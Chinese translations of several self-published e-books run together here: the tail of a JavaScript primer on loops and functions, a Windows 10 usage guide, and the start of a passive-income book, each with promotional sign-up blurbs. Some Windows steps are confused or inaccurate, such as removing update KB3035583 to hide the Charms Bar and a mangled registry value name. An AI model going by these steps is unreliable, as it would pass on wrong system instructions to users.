### 如何控制你的循环

JavaScript 语言允许你操作所有循环和 switch。在某些情况下，你必须在到达其最终部分之前退出循环语句。也有一些情况你必须忽略代码的某个部分并初始化下一个部分。

为了帮助你处理这种情况，该编程语言提供了两个强大的工具：**break** 语句和 **continue** 语句。让我们详细讨论每个语句。

### Break 语句

该语句在上一章中介绍过，允许你提前退出任何循环。下图将向你展示基本 break 语句的流程图。



注意：在我们讨论 switch 语句时，你已经见过 break 语句的工作方式。

### Continue 语句

**continue** 语句指示 JavaScript 解释器开始循环的下一次迭代并忽略剩余的代码块。一旦系统遇到 continue 语句，程序的流程就会转到表达式评估。如果条件仍然为 true，continue 语句将开始下一次迭代。反之，如果条件变为 false，程序控制将转到循环之外。

## 第 8 章：JavaScript 语言中的函数

基本上，函数是可以调用在程序任何部分的重复使用代码的集合。这意味着你不必多次编写相同的代码。函数帮助程序员创建模块化代码。它们还允许程序员将大型程序划分为较小的函数。

就像任何其他编程语言一样，JavaScript 提供了功能，可以通过函数帮助编写模块化代码。你可能在本书提供的代码中看到过诸如 **write()** 和 **alert()** 之类的函数。你可以重复使用这些函数，但它们只在 JavaScript 中编写一次。

该语言还允许你编写自己的函数。本章将教你 JavaScript 中函数的基础知识。


## 如何定义函数

你必须先定义函数，然后才能使用它们。定义函数最流行的方法涉及使用 **函数**（即 JavaScript 关键字）。输入 **函数** 后，指定你想要使用的名称和参数。然后，添加由大括号括起来的 JavaScript 语句块。

注意：你可以在不定义任何参数的情况下创建函数。因此，参数列表可能为空。

定义函数时必须使用的语法如下：

```html
<script type="text/javascript">
<!--
function functionname(parameter-list)
{
    statements
}
//-->
</script>
```

## 如何调用函数

在脚本中调用函数时，你只需指定函数名称。你可以使用下面的代码作为示例：

```html
<html>
<head>
<script type="text/javascript">
function sayHello()
{
    document.write ("Hello there!");
}
</script>
</head>

<body>
<p>click the following button to call the function</p>
<form>
<input type="button" onclick="sayHello()" value="Say Hello">
</form>

<p>Use different text in write method and then try...</p>
</body>
</html>
```

该代码将给出以下结果：


## 函数的参数

到目前为止你看到的函数都没有参数。然而，在调用/执行函数时，你可以轻松地分配各种参数。你可以在函数内部捕获这些参数。捕获后，你可以根据需要修改这些参数。

## 返回语句

JavaScript 允许你在函数中添加 **返回** 语句。这个 **返回** 语句完全是可选的，尽管如果你想从函数中获取值，就必须使用它。通常，你应该将返回语句放在函数的最后一部分。

例如，你可以将两个值传递给你的函数。然后，你可以期望该函数将这些值相乘并在你调用的程序中显示结果。

## 嵌套函数

JavaScript 允许你将一个函数放在另一个函数内部。这个过程称为“嵌套函数”。作为一般规则，你不能在循环或条件语句内部包含函数定义。

下面的代码将教你如何嵌套自己的函数：

```html
<head>
<script type="text/javascript">
<!--
function hypotenuse(a, b) {
    function square(x) { return x*x; }

    return Math.sqrt(square(a) + square(b));
}
function secondFunction(){
    var result;
    result = hypotenuse(1,2);
    document.write ( result );
}
//-->
</script>
</head>

<body>
<p>Click the following button to call the function</p>

<form>
<input type="button" onclick="secondFunction()" value="Call Function">
</form>

<p>Use different parameters inside the function and then try...</p>
</body>
</html>
```

上面的代码给出以下结果：



## 如何使用“Function()”创建函数

除了上面讨论的函数语句之外，你还可以使用 **函数()**（即 JavaScript 构造函数）和 **new**（即 JavaScript 运算符）创建函数。

要使用此构造函数，你必须使用以下语法：

```html
<script type="text/javascript">
<!--
var variablename = new Function(Arg1, Arg2..., "Function Body");
//-->
</script>
```

这种语法可以包含任意数量的字符串参数。最后一个参数充当函数体——它可能包含由分号分隔的任意语句。

重要说明：**函数()** 不为其生成的函数指定名称。程序员将这些未命名的函数称为“匿名”函数。

## 结论

再次感谢你下载这本书！

我希望这本书能够帮助你学习 JavaScript 的基础知识。

下一步是使用 JavaScript 编程语言编写自己的网页或程序。

最后，如果你喜欢这本书，我想请你帮个忙，你能为这本书在亚马逊上留下评论吗？将不胜感激！

[点击此处为本书在亚马逊上留下评论！](#)

感谢你，祝好运！

## 奖励：获取我提供的更多免费书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

如果你认真想提升编程技能，你将获得的一切对你都很有用。我将提供：

- 我写的更多书籍
- 我如何在创纪录的时间内学习编程
- 与编程相关的我最喜欢的产品信息
- 以及更多！

点击此处获取所有这些信息！

# Windows 10 学院

## 无压力学习 Windows 10 全面精通的方式

## 目录

- 引言
- 第1章：有什么新功能？
- 第2章：Cortana 的出现
- 第3章：使用开始菜单
- 第4章：管理设置
- 第5章：玩转功能
- 第6章：使用 Microsoft Edge
- 第7章：最大化 Windows 10 的使用
- 结论

## 奖励：获取我提供的更多免费书籍！

感谢阅读我的书！我希望你从中获得了极大的价值。我想通过赠送更多免费书籍以及与编程和技术相关的信息来感谢你！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

如果你认真想提升编程技能，你将获得的一切对你都很有用。我将提供：

- 我写的更多书籍
- 我如何在创纪录的时间内学习编程
- 与编程相关的我最喜欢的产品信息
- 以及更多！

[点击此处获取所有这些信息！](#)

## 第 1 章：有什么新功能？

Windows 10 最初你会注意到的事情之一是，虽然 Charms Bar 仍然存在，但你可以在没有它的情况下使用 Windows 10。

自从 Windows 8 创建以来，Charms Bar 就一直存在。然而，它的问题是很多人觉得它并没有真正有帮助，只是让界面变得混乱。

在 Windows 10 中，你只需隐藏 Charms Bar——但请先确保隐藏系统托盘图标。方法如下：

### 暂时隐藏托盘

隐藏系统托盘有两种方法。第一种是临时修复，方法如下：

- 1. 如果你看不到托盘中需要的全部项目，只需在箭头下方单击即可。
- 2. 现在，如果所有图标都已出现，请继续打开任务管理器（CTRL+ALT+DEL），然后终止 GWX/GWXUX 进程。

### 永久隐藏托盘

现在，如果你真的觉得永远不会使用托盘，你可以通过以下操作永久隐藏它：

- 1. *转到控制面板 > Windows 更新。*
- 2. 在屏幕左侧选择 *已安装的更新*，然后选择 *查看已安装的更新*。现在你会在屏幕顶部看到已安装的更新。
- 3. 当你看到标记为 *Update for Microsoft Windows KB3035583* 的更新时，继续将其删除。
- 4. 如果它再次出现，只需跳过此更新，以防万一。

### 隐藏 Charms Bar

然后，你可以继续隐藏 Charms Bar。

基本上，你只需单独选择 *设置*，而不是让它出现在 Charms 菜单中。通过点击 *设置*，你已经可以关闭 Charms Bar。

为了在没有 Charms Bar 的情况下访问完整设置，你需要执行以下操作：

- 1. 点击 *Charms* 栏。
- 2. 点击 *更改 PC 设置*。
- 3. 然后，访问你在 Windows 10 上会看到的第一个屏幕。
- 4. 点击开始按钮，以便显示新的开始菜单。
- 5. 点击 *设置* 链接。
- 6. 哇！你已准备就绪！


## 第 2 章：Cortana 的登场

Windows 10 中另一个最新登场的是 *Cortana*，一位虚拟助手，她能够帮助你在电脑中搜索所需内容、查找文件、跟踪包裹、管理日历，甚至与你聊天——尤其是在你需要帮助的时候！

你只需在任务栏顶部的搜索栏中输入问题，即可访问 Cortana。你也可以使用麦克风图标来执行此操作——不过，最好还是直接搜索，因为并非所有手机（如果你也把 Windows 10 与其他设备同步了的话）都有清晰的麦克风/扬声器。

### 神奇口令

你可以让 Cortana 在你每次说出 *嘿，Cortana* 时回应你。为此，只需：

- 1. 选择 笔记本 > 设置。
- 2. 你会看到一个设置项，内容为 *当你说“嘿，Cortana”时让 Cortana 响应。* 打开该选项。

### 它能做什么

Cortana 能够在很多事情上帮助你，不过你主要可以期待以下功能：

- 1. 向 Cortana 询问天气情况。了解天气将会怎样非常有帮助，因为它让你能够相应地安排活动。只需问 *（所选地点）天气怎么样*，Cortana 就能回答你。你也可以单击 Cortana 的 *笔记本*，单击 *天气*，看看当天为你准备了什么！
- 2. 获取基于位置的提醒。这意味着你可以让 Cortana 在你位于特定地点时提醒你某件事。例如，当你在杂货店时，想被提醒需要买猫粮，你可以告诉 Cortana：在 Park Avenue 杂货店时提醒我买猫粮——或类似的话。一定要确保别忘了说“提醒我”，因为这是这里的神奇短语。你也可以让 Cortana 编辑或关闭你已经创建的提醒，以避免混淆。
- 3. 让 Cortana 为你打开应用！最后，你可以通过说“打开（所需应用）”来让 Cortana 打开你需要的应用。例如：Cortana，打开 Adobe Photoshop。看，现在你即使不用手，也能完成必须做的事情！
- 4. 让 Cortana 按时间搜索媒体文件。如果你不知道从哪里开始，而且一页上的信息太多，搜索可能会令人望而生畏。这时你可以做的是让 Cortana 按文件类型或按日期搜索。例如，说：Cortana，搜索 3 年前的音乐。请确保你的电脑或 OneDrive 上有你需要的文件——或者你也可以将 Cortana 与 Edge 连接（更多内容请参见第 7 章）来完成此操作。
- 5. 让 Cortana 为你唱歌！是的，Cortana 不仅提供信息，她也很有娱乐性。你可以让她为你唱歌，甚至用 Jen Taylor 的真实人声演唱！这样，你就不会害怕，也不会觉得她太像机器人了。要让她唱歌，你可以使用以下命令：
  - 给我唱首摇篮曲。
  - 给我唱首歌。
  - 狐狸怎么叫？
- 6. 通过向她介绍你自己，让她了解你的偏好。只需输入或说出“让我来告诉你关于我自己的事”，然后开始告诉她你的好恶、什么让你开心，或者你想进一步了解什么。

### 设置提醒

Cortana 还可以帮助你为正在进行的重要事项设置提醒。你只需转到搜索栏，输入你希望被提醒的任何内容即可。例如：

- 1. 周六 6 点叫醒我去开会。
- 2. 提醒我超级碗的事。
- 3. 把我上午 9 点的安排改到 10:30。

### 彩蛋

借助彩蛋，使用 Cortana 会变得更加有趣！这些是你向 Cortana 询问或告诉 Cortana 的事情，它们会给出非常幽默有趣的回答！

以下是你应该尝试的最佳彩蛋：

- 1. 你喜欢 Google Now 吗？
- 2. 你会跳舞吗？
- 3. 谁更好：你，还是 Siri？
- 4. 你醒着吗？
- 5. 我讨厌你。

### 关闭 Cortana

如果你厌倦了 Cortana，或者不再需要她的帮助，只需转到 *设置*，然后选择 *关闭 Cortana*，即可关闭该功能。

## 第 3 章：使用开始菜单

很多用户说 Windows 10 开始菜单相当令人困惑，但理解它并非不可能。以下是你可以遵循的简单步骤，以便使用它！

- 1. 单击 *开始* 菜单。它会出现在屏幕左侧。
- 2. 单击 *所有应用*。同样，它会在屏幕左侧。然后你会看到电脑上安装的所有应用的显示列表。
- 3. *电源*按钮可让你重启或关闭 Windows。它位于屏幕左栏。
- 4. 要锁定电脑，只需右键单击你的账户名，然后会看到以下选项：*锁定*、*更改账户图片*、*注销*。选择“锁定”。
- 5. 要管理屏幕右侧看到的磁贴，只需右键单击某个磁贴，然后屏幕上会弹出一个菜单。选择 *从“开始”取消固定*、*调整大小* 或 *固定到任务栏*。还要检查是否有 *卸载* 选项——大多数应用都会提供此选项。
- 6. 要搜索应用或文件，请在 *搜索框* 中输入你要查找的内容，屏幕上会弹出选项列表。
- 7. 你还可以将某些项目固定到开始菜单。为此，只需右键单击你希望在开始菜单中看到的文件，然后单击 *固定到“开始”*。

### 访问秘密菜单

确实存在所谓的“秘密开始菜单”——但现在它没那么秘密了，不是吗？以下是如何访问它。

- 1. 右键单击开始图标。
- 2. 然后你会看到一个弹出菜单，其中几乎包含你可以对电脑执行的所有操作！
- 3. 如果使用触摸屏，你可以通过按住开始按钮至少 5 到 10 秒来访问此菜单！

### 自定义开始菜单

当然，你也可以根据自己的偏好对菜单进行个性化设置或自定义！

- 1. 要在开始菜单和开始屏幕之间切换，请打开 设置 > 个性化 > 开始 > 开始行为 > 在桌面时使用全屏开始屏幕。
- 2. 要自定义屏幕上显示的内容，请转到 设置 > 自定义。在那里，你会看到 Microsoft 推荐的应用列表。另一项设置会显示最近打开程序的设置控件，最后一项则与 *跳转列表* 项目有关。
- 3. 要更改开始菜单、窗口边框和任务栏的颜色，请转到 *设置 > 个性化 > 颜色*。如果你想要色彩鲜艳的电脑，只需转到 *在“开始”、任务栏和操作中心上显示颜色*，就能实现。
- 4. 单击 *开始*，查看是否拥有所需的所有文件夹和文件。
- 5. 单击 *开始 > 选择文件夹*，选择你希望在屏幕上看到的文件夹。

### 同时使用开始菜单和开始屏幕

如果你需要一次做很多事情，而且讨厌等待，那么同时使用开始菜单和开始屏幕可能对你有好处！方法如下：

- 1. *单击“开始”按钮，然后依次选择“设置”>“个性化”。*
- 2. 单击“开始”。
- 3. 选择“使用全屏开始屏幕”。
- 4. 单击“开始屏幕”以使开始菜单消失。
- 5. *取消选中“使用全屏开始屏幕”以返回“设置”。*
- 6. *然后，你也可以调整开始菜单的大小。为此，请单击“开始”。*
- 7. 将光标移到开始菜单顶部，然后将其向上拖动到该菜单的顶部。要降低高度，只需将光标向下拖动。
- 8. 将光标向右拖动以增加宽度，向左拖动以减小宽度。

### 更改登录屏幕

你还可以做另一件事：更改登录屏幕，使其符合你的偏好。有些人觉得登录屏幕太亮、太俗气，如果你是其中之一，可以通过执行以下操作来简化：

- 1. *转到“设置”>“个性化”>“锁屏界面”。*
- 2. *向下滚动，屏幕切换后，你会看到“在登录屏幕上显示 Windows 背景图片”。*
- 3. *关闭上述开关，这样下次登录时，你只会看到屏幕上的 Windows 徽标。*

你也可以通过以下操作在注册表中调整此项：

- 1. *转到“开始”>“所有应用”>“Windows 系统”>“运行”。*
- 2. 在对话框中输入 *regedit*，然后按 Enter。
- 3. 在注册表编辑器中导航到 *HKEY_LOCAL_MACHINE > Software > Policies > Microsoft Windows > System*。
- 4. 现在，右键单击 *System*，然后单击 *新建 > DWORD (32 位) 值。*
- 5. 将标签更改为 *DWORD Disable Log-in Background Image*（不包含

空格)

- 6. 右键单击 *禁用登录背景图像* 并选择 *修改*。
- 7. 在 *数值数据* 下输入 1 并单击确定。
- 8. 同时按下 *Windows 键 + L*，这样登录后您会看到纯色背景。
- 9. 转到 *设置 > 个性化 > 背景* 以调整背景颜色（如有需要）。

## 第 4 章：管理设置

Windows 10 与其前代产品最大的不同之一是，在打开计算机时，您会看到的不仅是“开始”菜单，还有“设置”菜单。 它在新窗口中打开，带有大号、适合触摸的图标。 与 Windows 7 和 8 中隐藏在“魅族”菜单中的菜单不同，这个菜单会立即出现——这让您使用起来更舒适。

您可以在此菜单中找到的一些内容包括：

### 管理设备

“设置”菜单引入了一些您在使用此操作系统时可以使用的设备。 它还谈到了您可以在此操作系统上与 PC 连接的设备。 您能做的有：

- 1. 首先是 *自动播放*，允许您选择是否打开或关闭自动播放。
- 2. *输入* 允许您选择是否使用物理键盘或屏幕键盘。
- 3. *打印机和扫描仪* 允许您向计算机添加打印机。 为此，只需单击 *设备和打印机* > *设备管理器* > *相关设置* > *添加打印机或扫描仪* 并按照屏幕上的说明操作。
- 4. *鼠标和触摸板* 让您有机会配置鼠标和触摸板设置。 只需选择鼠标和触摸板 > 相关设置 > 其他鼠标选项。
- 5. *已连接设备*， meanwhile，是关于打印机或扫描仪之外的其他已连接设备。

### 维护账户

除了您自己的账户之外，您还可以管理您家庭成员的账户——只要他们与您相连！

您需要了解的内容如下：

- 1. *您的账户* 是您的主要登录账户。 它与 Microsoft 云网络相连。
- 2. *工作访问* 告诉您 PC 或您的账户是否连接到另一个网络。
- 3. *同步您的设置* 允许您将此 PC 与其他设备以及家中的其他计算机同步。 这样，即使您不在家，也很容易控制它们。
- 4. *登录选项* 会询问您具体希望如何打开计算机。 您可以使用普通登录加密码，或选择 Windows Hello，后者允许您使用生物识别登录。
- 5. *家庭和其他用户* 允许您向 PC 添加更多管理员。 为此，只需单击为分配访问设置账户 > 选择一个账户 > 选择一个应用。

### 自定义和个性化

要自定义和个性化您的设置，只需执行以下操作：

- 1. 背景主要是计算机的壁纸，并选择您希望照片如何在屏幕上显示。
- 2. 颜色是桌面、工具栏等将使用的颜色。
- 3. 锁屏是在锁定状态下您在屏幕上看到的内容。 单击图片，您将看到最近使用的 5 张锁屏图片，以及一个浏览按钮供您从文件选择照片。 选择幻灯片放映将使图片幻灯片成为您的锁屏。 您还可以选择屏幕超时，以及更多屏幕保护程序设置。
- 4. 主题可帮助您选择要使用的主题。 转到经典主题设置 > 相关设置即可。
- 5. 开始 可帮助您打开或关闭应用程序和通知——以及更多内容。 您将在下一章了解更多信息。

### 网络和 Internet

谁能在当今没有互联网生活呢？ 您可以在 Windows 10 中快速轻松地调整互联网和网络设置——您可以这样做：

- 1. 数据使用主要涉及正在使用的带宽，并且主要涉及使用 Wi-Fi 的已连接设备。
- 2. VPN 是关于向您的 PC 添加 VPN 连接。 要调整此设置，只需转到 PC 设置 > 网络 > 添加 VPN 连接 > 相关设置 > 显示可用连接。
- 3. 拨号和以太网是使用 IPv4 的老式 Internet 设置。
- 4. 代理将允许您决定是否使用手动或自动代理。 您可以通过转到 PC 设置 > 网络 > 代理来查看此设置。

### 关闭 Wi-Fi 共享

为了确保您的 Wi-Fi 连接仍然属于您，并且您拥有更多隐私，您可以禁用 Wi-Fi 共享！ 方法如下：

转到设置 > 网络和 Internet > Wi-Fi > 管理 Wi-Fi 设置。 您还可以关闭自动连接到 Skype、Quora、Outlook 或 Facebook 的网络。

### 使账户保持私密

如今，保持账户私密非常重要。 这是保护您自己和您关心的人免受可能从您那里窃取信息的人的一种好方法。 Windows 10 让这变得简单。 为此，您可以尝试：

- 1. 账户信息、日历、联系人、消息、收音机 只是让您决定是否希望将它们与其他设备同步。
- 2. 位置 基本上使用 GPS 运行，并允许您决定是否让他人看到您所在的位置。
- 3. 通用 是关于决定是否希望您的姓名出现在应用、程序、照片以及连接到计算机的任何其他文件上。
- 4. 反馈。 选择是否希望 Microsoft 每天、每周、自动、始终或从不向您征求反馈。
- 5. 语音、手写、输入 主要提供是否使用 Cortana（Windows 10 的数字助手）的选项。
- 6. 其他设备 允许您将 Xbox One 及其中的信息与您的 Microsoft 账户同步。
- 7. 麦克风 让您有机会打开或关闭麦克风。

## 第 5 章：玩转功能

升级到 Windows 10 意味着您能够体验大量有趣的功能，这些功能可以在日常生活中使用！ 这样，您会更喜欢 Windows 10！

### 首先导入书签

如果您之前使用过其他浏览器并且想要重新访问在那里创建的书签，您可以将其导入到 Edge。 方法如下：

- 1. 打开 Edge 并单击“...”，然后单击设置。
- 2. 选择从另一个浏览器导入收藏夹。
- 3. 选择您想要导入书签的所有浏览器，即可完成！

### 使用照片应用

- 1. 请注意，照片应用现在有两个主要功能，即：*集合* 和 *相册*。 您的照片按日期在 *集合* 选项卡中按时间顺序排列。 同时，*相册* 包含应用为您自动创建的相册。
- 2. 要添加文件夹，请转到设置 > 来源 > 添加文件夹 > 将此文件夹添加到 *图片*。
- 3. 要显示来自 *OneDrive* 的照片和视频，只需选择设置 > 显示我的来自 OneDrive 的照片和视频。
- 4. 要共享图片，只需选择要共享的图片并单击 *共享！*
- 5. 您还可以使用滤镜和其他编辑功能！

### 选择默认程序

您可以按照以下说明更改默认程序和协议：

- 1. 打开设置 > 系统 > 默认应用。
- 2. 更改您希望用于电子邮件、日历、地图、网页浏览器、视频播放器、照片查看器等的程序。
- 3. 要设置单个文件类型，请转到设置 > 系统 > 按文件类型选择默认应用。
- 4. 要为协议设置默认值，请转到设置 > 系统 > 按协议选择默认应用。
- 5. 要更改默认程序，只需转到设置 > 系统 > 按应用设置默认值 > 设置默认程序 > 将程序设为默认值 > 为此程序选择默认值

### 侧载应用

侧载很重要，因为它允许您安装 Windows Store 中不可用的应用。 您可以通过以下方式进行操作：

- 1. 打开设置 > 更新和安全。
- 2. 转到为开发人员 > 侧载应用。
- 3. 您现在会收到有关侧载存在危险的警告。 只需单击是，表示您了解风险。

### 管理弹出窗口

您还可以通过确保能够捕获弹出窗口来延迟捕获屏幕截图的快门速度。 方法如下：

- 1. 打开截图工具，然后单击延迟。 在 0 到 5 之间选择数字。
- 2. 通过单击新建旁边的选项来选择您想要制作的剪辑类型。 可在窗口、矩形、自由形式、全屏中选择。
- 3. 单击新建以开始剪辑。 现在您将有 0 到 5 秒的时间，具体取决于您之前选择的设置。 屏幕将冻结，您将能够捕获想要的图像。
- 4. 单击保存以保存您的屏幕截图。


## 快速文件共享
- 1. 查找你想要共享的文件。
- 2. 在文件资源管理器中点击共享。
- 3. 点击共享按钮。
- 4. 选择你想要与之共享该文件的程序。
- 5. 通过前往设置 > 系统 > 共享实验室来配置选项。

## 第 6 章：使用 Microsoft Edge
Microsoft Edge 是 Windows 10 的主要网页浏览器。它是一款相当可定制、易于使用的浏览器。以下是你可以用它做的一些事情！

Microsoft Edge 阅读视图也是一个伟大的创新，因为它清除所有可能阻止你在网上做你想做的事情的干扰，特别是与工作相关时！要使用它，你只需点击 Edge 左上角的图书图标即可激活阅读视图！

### Edge 自定义
- 1. *点击菜单 > 设置 > 用以下方式打开。*
- 2. 现在，你可以选择“开始”和标签页的外观！
- 3. 你还可以自定义标签页。你需要做的就是点击设置 > 新标签页打开方式，然后从屏幕上出现的内容中选择你想要的选项！

### 网页标注
Edge 的优点在于它允许你在网页上高亮、书写或绘制。这样，你就可以轻松保存和分享它，并按你想要的方式编辑！要做到这一点，只需点击页面顶部的钢笔和纸图标即可！

### 玩转网页
你也可以在截屏时延迟快门速度，确保也能截取弹出窗口。方法如下：
- 1. 打开截图工具，然后点击延迟。在 0 到 5 之间选择数字。
- 2. 通过点击“新建”旁边的选项来选择你想要制作的截图类型。可选择窗口、矩形、自由形式、全屏。
- 3. 点击新建以开始截图。你现在将有 0 到 5 秒的时间，具体取决于你之前的选择。屏幕将冻结，你将能够截取想要的图像。
- 4. 点击保存以保存你的截图。

### 创建文章列表
你也可以在阅读视图中创建想要阅读的文章列表。方法如下：
- 1. 当你找到喜欢的文章时，点击 *星标图标*。
- 2. *导航到阅读列表*，然后点击 *添加*。

你还可以将网页/网站固定到“开始”菜单。只需在浏览网页时点击 *固定到“开始”屏幕*，你就能将网站固定到“开始”菜单上。

### 私密浏览
使用 Edge 时你也可以私密浏览。这样，你搜索/访问的内容将不会出现在浏览器历史记录中。要做到这一点，只需点击 *在 InPrivate 窗口中浏览* 即可！

### 插入点浏览
这意味着你可以使用键盘浏览网页——甚至无需使用鼠标！

要做到这一点，只需按 F7 然后确认屏幕上出现的提示即可！

### 与 Cortana 集成
你也可以在 Edge 上使用 Cortana！只需将 Cortana 固定到 Edge，你就能更好地使用该功能！

### 与 Flash 集成
在 Flash 集成的帮助下，你可以在 Edge 上观看高清视频。你也可以打开或关闭此功能。为此，你应该：
- 1. 前往设置 > 高级设置 > 使用 Adobe Flash Player。
- 2. 选择是否打开或关闭它。

## 第 7 章：最大化 Windows 10 的使用
当然，为了更好地欣赏 Windows 10，你应该尝试借助本章提到的说明最大化其使用！

### 实时通知
由于 Windows 10 被证明是新时代的操作系统，你可以期待它提供实时通知。简而言之，只要它们连接到你的 Microsoft 账户，你就会收到来自 Facebook、Twitter、Instagram 以及你可能使用的任何其他应用的通知。
- 1. 要选择你想要的通知，请前往操作中心 > 显示这些应用的通知。在那里，你会看到你拥有的应用列表。只需选择你想要的通知即可！
- 2. 你还可以选择想要访问哪些快速操作。为此，请前往设置 > 系统 > 通知和操作 > 选择你的快速操作。

### 快速打开程序
- 1. 前往 *开始菜单* > *所有应用*。
- 2. 查找你想要创建快捷方式的应用，然后右键点击它。你将看到一个下拉菜单。选择 *打开文件位置*，然后跳过屏幕上弹出的下一步。
- 3. 找到应用后，从 *开始菜单* 将其点击并拖动到桌面。右键点击然后选择 *属性*。
- 4. 现在，*属性* 窗口将在屏幕上打开。查找快捷方式选项卡然后选择快捷键。按你想要与应用关联的键（例如，CTRL + ALT + [选择的键]）。
- 5. 点击 *继续*。
- 6. 现在你可以使用选择的快捷方式打开该特定应用！

### 快速访问功能
很多人说 *快速访问* 让 Windows 10 更易于管理——这确实有道理。你可以在下面了解更多：
- 1. 要将文件添加到 *快速访问*，只需导航到你想要添加的文件，然后简单点击添加到快速访问。
- 2. 要从 *快速访问* 中移除文件，请前往该文件并点击从快速访问中取消固定。
- 3. 要从 *快速访问* 中移除最近使用过的文件和常用文件夹，只需前往 *查看 > 选项 >常规 > 隐私*。然后，取消选中显示最近使用文件 的复选框。点击 *清除 > 清除文件资源管理器历史记录*。你也可以选择隐藏或从最近隐藏。
- 4. 要更改文件资源管理器的打开方式，只需点击 *查看 > 选项 > 打开文件资源管理器 > 这台电脑*。

### Snap 辅助
这是 Windows 10 独有的功能！它帮助你将某个窗口吸附到屏幕的某一侧，这样你就不会花费大量时间移动它。
- 1. 要用鼠标吸附窗口，请点击其标题并将其拖向屏幕侧边。你将看到一个轮廓，显示拖动后窗口会出现的位置。
- 2. 要用键盘吸附，只需按 Windows 键 + 左箭头（或右箭头）。
- 3. 要吸附到其中一个四分之一区域，只需按 Windows 键 + 上箭头（或下箭头），然后通过同时按 Windows 键和方向键移动它。

### 同时使用多个桌面
是的，使用 Windows 10 时你可以使用多个“桌面”。要实现这一点，只需按照以下说明操作：
- 1. 通过点击任务视图添加桌面。按 Tab + Windows 键 > 新建桌面。
- 2. 现在你有两个虚拟桌面。要在它们之间切换，只需按 Windows 键 + CTRL + 左箭头 + Windows 键 + CTRL + 右箭头。
- 3. 要在桌面之间移动窗口，只需右键点击你想要移动的窗口，然后选择想要移动到的位置。

要关闭桌面，只需点击 X 或按 Windows 键 + CTRL + F4。

### 命令提示符快捷键
你也可以为命令提示符使用键盘快捷键。方法如下：

前往开始菜单 > 所有应用 > Windows 系统 > 命令提示符。

点击属性 > 选项 > 编辑选项 > 启用 CTRL 键快捷方式。

现在，这里有一份你可以使用快捷键的列表：
- Shift + 上/下（将光标向上或向下移动一行然后选择文本）
- CTRL + V 或 Shift + Insert（粘贴复制的文本）
- CTRL + C 或 CTRL + Insert（复制所选文本到剪贴板）
- CTRL + A（选择当前行中的所有内容）
- CTRL + Page Up/Down（向上或向下移动一页屏幕）
- CTRL + 上/下（向上或向下移动一行）
- CTRL + M（进入标记模式）
- CTRL + F（从命令提示符打开查找窗口）
- Alt + F4（关闭命令提示符）
- CTRL + Shift + Home/End（将光标移动到屏幕缓冲区开头/结尾，然后选择文本和输出的开头/结尾）
- Shift + Home/End（将光标移动到当前行开头/结尾并选择文本）
- Shift + Page Up/Down（将光标向上/向下移动屏幕并选择文本）
- CTRL + Shift + 左/右（将光标向左/右移动并选择文本）
- Shift + 左/右（将光标向左/右移动一个字符并选择文本）


*上/下/左/右*（在标记模式下；将光标向上、下、左或右移动）

## 其他快捷键

这里还有更多键盘快捷键，肯定会对您有所帮助！

- 1. Windows 键 + 左（将窗口吸附到屏幕左侧）
- 2. Windows 键 + 右（将窗口吸附到屏幕右侧）
- 3. Windows 键 + 上/下（将窗口吸附到四分之一区域）
- 4. Windows 键 + Tab（任务视图）
- 5. Windows 键 + CTRL + 左（返回到上一个虚拟桌面）
- 6. Windows 键 + CTRL + 右（转到下一个虚拟桌面）
- 7. Windows 键 + CTRL + F4（关闭当前虚拟桌面）
- 8. Windows 键 + CTRL + D（创建新的虚拟桌面）

## 结论

再次感谢您下载本书！

希望本书能帮助您了解 Windows 10 并轻松学会使用它！

下一步是确保您遵循此处提到的步骤，并在使用 Windows 10 时感到困惑时查阅本书。

最后，如果您喜欢这本书，我想请您帮个忙，能否在亚马逊上为本书留下评论？将不胜感激！

点击此处在亚马逊上为本书留下评论！

感谢您，祝好运！

## 奖励：免费获取我撰写的更多书籍！

感谢阅读我的书！希望您从中获得了极大的价值。为了感谢您，我将提供更多免费书籍以及与编程和技术相关的信息！

只需点击下面的链接，并在我的网站上输入您的电子邮件地址！

如果您认真想要提升编程技能，您将获得的一切都将对您有用。我将提供：

- 我撰写的更多书籍
- 我如何在创纪录的时间内学会编程
- 与编程相关的我最喜欢的产品信息
- 以及更多！

[点击此处获取所有这些信息！](#)

# 被动收入任务

如何通过我最喜欢的被动收入渠道在线赚钱

[www.PassiveIncomeAssignment.com](www.PassiveIncomeAssignment.com)

免费被动收入指南

## 目录

- 引言
- 第1章：Kindle 出版
- 第2章：联盟营销
- 第3章：股市
- 第4章：博客
- 第5章：打造终极被动收入机器
- 结论

## 引言

嘿，感谢您下载本书，*被动收入任务 - 如何通过我最喜欢的被动收入渠道在线赚钱*

**关于我：**

我叫 Jon Webber，是《被动收入任务》博客的创建者。我想与您分享一些关于我的信息。

我是来自温哥华的22岁年轻人，我的梦想是在互联网上谋生，主要依靠被动收入。我是一名在线企业家、投资者和健身爱好者。我最大的热情之一也是教导他人，这就是我创建网站和本书的原因。

我正处于通往财务自由的旅程之初，我想与您分享我所采取的步骤，并希望您能与我一起踏上这段旅程。

我的网站的目的是对我生活中的一切完全公开，从目标到我正在做什么以及我将去向何处。我这样做不仅是为了让自己负责，也希望您能跟随我并取得成功。

在这个网站上，我将分享我最喜欢的书籍、课程、资源、工具、策略、免费内容、健康相关信息以及基本上任何让我的生活变得更好的东西。

请注意：我在网络营销或投资方面远非专家，我所有效的方法可能并不适合每个人。它们都不是快速致富的想法……它们需要大量的努力。因此，如果您想涉足我所谈论的任何领域，请愿意投入时间。我只根据经验发言，还有很多我尚未了解的知识。

开始吧！

您想赚更多钱吗？您觉得自己应该赚更多钱吗？如果是这样，这本书就是为您准备的。许多人觉得自己在目前的工作中赚得不够，但很少有人真正采取行动。我想向您展示如何开始在线赚取大量金钱。这些技巧可以用作副业收入，甚至可以取代您目前的薪水。

在本书和我的被动收入指南中，我将向您展示 EXACTLY 如何开始在线赚钱，通过展示经过验证的步骤以及诸如以下策略：

- 开始赚钱的最快和最简单的方法
- 如何取代您目前的薪水并辞掉工作
- 如何完全自动化您的被动收入业务

